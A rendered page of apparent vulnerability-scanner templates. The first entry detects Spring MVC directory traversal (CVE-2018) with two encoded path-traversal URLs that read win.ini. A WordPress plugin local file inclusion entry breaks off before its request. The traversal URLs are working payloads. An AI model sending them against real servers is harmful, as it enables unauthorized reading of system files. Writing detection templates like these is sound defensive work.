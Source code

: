 # Spring MVC Framework - Local File Inclusion

## Description

- Spring MVC Framework versions 5.0 prior to 5.0.5 and versions 4.3 prior to 4.3.15 and older unsupported are vulnerable to local file inclusion because they allow applications to configure Spring MVC to serve static resources (e.g. CSS, JS, images). A malicious user can send a request using a specially crafted URL that can lead a directory traversal attack.
- severity - medium
- tags - cve,cve2018,spring,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
- {{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini

### Matchers

**Type - word**

- words
  1. for 16-bit app support

**Type - status**

- status
  1. 200

---

# WordPress 99 Robots WP Background Takeover Advertisements \<=4.1.4 - Local File Inclusion

## Description

- WordPress 99 Robots WP Background Takeover Advertisements 4.1.4 is susceptible to local file inclusion via exports/download.php.

- severity - high
- tags - edb,cve,cve2018,wordpress,wp-plugin,lfi,traversal,wp

## Requests

- Method - GET
